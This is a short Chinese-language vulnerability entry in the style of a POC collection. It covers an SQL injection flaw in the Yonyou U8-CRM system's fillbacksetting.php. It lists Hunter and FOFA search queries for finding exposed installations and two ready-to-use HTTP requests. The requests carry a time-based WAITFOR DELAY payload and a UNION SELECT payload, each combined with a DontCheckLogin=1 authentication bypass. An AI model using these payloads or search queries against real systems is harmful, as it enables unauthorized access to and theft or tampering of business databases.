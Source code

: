 # 用友U8-CRM系统fillbacksetting.php存在SQL注入漏洞

用友U8-CRM系统 `/config/fillbacksetting.php` 存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## hunter

```jade
app.name="用友 CRM"
```

## fofa

```jade
title="用友U8CRM"
```

## poc

```javascript
GET /config/fillbacksetting.php?DontCheckLogin=1&action=delete&id=-99;WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```

```javascript
GET /config/fillbacksettingedit.php?DontCheckLogin=1&action=edit&id=1+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,@@VERSION,NULL,NULL--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```

![image-20240927200752980](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272007101.png)

![image-20240927200857642](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272008790.png)
